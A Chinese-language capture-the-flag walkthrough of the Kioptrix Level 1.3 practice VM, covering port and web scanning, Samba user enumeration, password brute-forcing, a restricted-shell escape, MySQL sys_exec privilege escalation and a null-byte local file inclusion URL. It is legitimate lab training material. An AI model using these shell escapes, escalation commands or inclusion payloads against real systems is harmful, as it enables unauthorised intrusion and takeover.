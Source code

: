 # Kioptrix Level 1.3

下载地址：

```
https://download.vulnhub.com/kioptrix/Kioptrix4_vmware.rar
```

## 实战操作

压缩包解压后，发现只有一个虚拟硬盘，需要打开一个虚拟机加入这块硬盘

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1).png>)

把原来的硬盘删掉，添加这块硬盘

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png>)

增加成功

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

扫描到靶机IP：`192.168.0.11`。

扫描端口

```
┌──(root💀kali)-[~]
└─# nmap -sV -p1-65535 192.168.0.11                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-18 07:51 EST
Nmap scan report for 192.168.0.11
Host is up (0.0019s latency).
Not shown: 39528 closed ports, 26003 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:C1:84:47 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.91 seconds
```

扫描网站看看有啥值得注意

```
┌──(root💀kali)-[~]
└─# nikto -h http://192.168.0.11/                                                                                                                                                                                                       1 ⨯
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.0.11
+ Target Hostname:    192.168.0.11
+ Target Port:        80
+ Start Time:         2021-12-18 07:54:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 98933, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie PHPSESSID created without the httponly flag
+ 8724 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2021-12-18 07:54:19 (GMT-5) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Samba枚举，枚举到几名用户

```
┌──(root💀kali)-[~]
└─# enum4linux   192.168.0.11
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\loneferret (Local User)
S-1-22-1-1001 Unix User\john (Local User)
S-1-22-1-1002 Unix User\robert (Local User)
```

msf内置Samba枚举脚本

```
msf6 > use auxiliary/scanner/smb/smb_enumusers
msf6 auxiliary(scanner/smb/smb_enumusers) > set rhosts 192.168.0.11
rhosts => 192.168.0.11
msf6 auxiliary(scanner/smb/smb_enumusers) > run

[+] 192.168.0.11:139      - KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] 192.168.0.11:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

进入到web系统，发现有登录框，测试发现使用上面扫描到用户，可以爆出来用户密码

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1).png>)

使用上面的账号和密码，ssh登录进去。

进入终端模式

```
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

查看页面，找到MySQL密码

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

使用mysql提权

```
mysql> select sys_exec("usermod -aG admin john");
+------------------------------------+
| sys_exec("usermod -aG admin john") |
+------------------------------------+
| NULL                               | 
+------------------------------------+
1 row in set (0.05 sec)
```

提权成功

```
john@Kioptrix4:~$ sudo su root
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

查看祝贺信息

```
root@Kioptrix4:/home/john# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```

**本地文件包含思路**

输入index.php可以看到报错信息里面是存在include调用

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

直接无法访问

![](<../../.gitbook/assets/image (26) (1) (1) (1) (1) (1) (1).png>)

需要加`%00`进行截断

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```
http://192.168.0.11/member.php?username=/proc/self/fd/9%00
```

![](<../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png>)
